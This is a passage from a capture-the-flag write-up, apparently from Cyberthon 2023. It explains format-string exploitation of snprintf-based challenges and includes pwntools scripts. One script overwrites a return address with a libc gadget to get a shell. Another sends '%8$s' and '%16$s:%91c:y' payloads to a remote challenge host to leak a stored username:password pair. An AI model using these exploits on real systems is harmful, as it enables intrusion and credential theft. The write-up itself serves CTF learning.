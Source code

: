 ```py

    payload = fmtstr_payload(8, { rip: libc_base + 0xe3b01 })
    p.sendline(payload)

    p.interactive()


if __name__ == "__main__":
    main()
```

---

<h1 id="flagmin">Flagmin</h1>

This challenge is also a format string challenge using `snprintf`. The binary
checks if the parsed format string contains a "username-password" pair that was
randomly generated, then checks if the string ends with ":y".

The generated pairs are stored in the heap. We can use %s to get a
username:password pair since there are addresses on the stack pointing to the
generated strings. 

Since the binary appends :n to the end of our string, we need to somehow get
rid of it. `snprintf` takes an integer argument to indicate how many characters
to write to the output string. Extra characters after 0x80 are truncated, hence
we can use %c to push :n out of the string and put :y just before it.

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./flagmin_patched")

context.binary = exe

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p)
            pause()
    else:
        p = remote("chals.f.cyberthon23.ctf.sg", 43040)

    return p


def main():
    p = conn()

    # good luck pwning :)
    p.sendline(b"%8$s")
    p.sendline(b"%16$s:%91c:y")

    p.interactive()


if __name__ == "__main__":
    main()
```

---